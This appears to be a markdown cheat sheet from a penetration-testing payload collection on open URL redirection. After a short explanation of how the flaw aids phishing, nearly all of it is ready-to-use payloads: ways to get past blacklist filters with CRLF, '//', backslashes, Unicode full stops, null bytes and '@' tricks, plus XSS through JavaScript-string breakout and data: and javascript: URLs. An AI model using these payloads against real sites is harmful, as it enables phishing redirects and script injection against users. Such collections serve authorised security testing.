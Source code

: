 # Open URL Redirection
Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.	

## Exploits

Using CRLF to bypass "javascript" blacklisted keyword
```
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" to bypass "http" blacklisted keyword
```
//google.com
```

Using "https:" to bypass "//" blacklisted keyword
```
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)
```
\/\/google.com/
/\/google.com/ 
```


Using "%E3%80%82" to bypass "." blacklisted character
```
//google%E3%80%82com
```


Using null byte "%00" to bypass blacklist filter
```
//google%00.com
```

Using "@" character, browser will redirect to anything after the "@"
```
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```


XSS from Open URL - If it's in a JS variable
```
";alert(0);//
```

XSS from data:// wrapper
```
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper
```
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## Thanks to
* filedescriptor
* https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet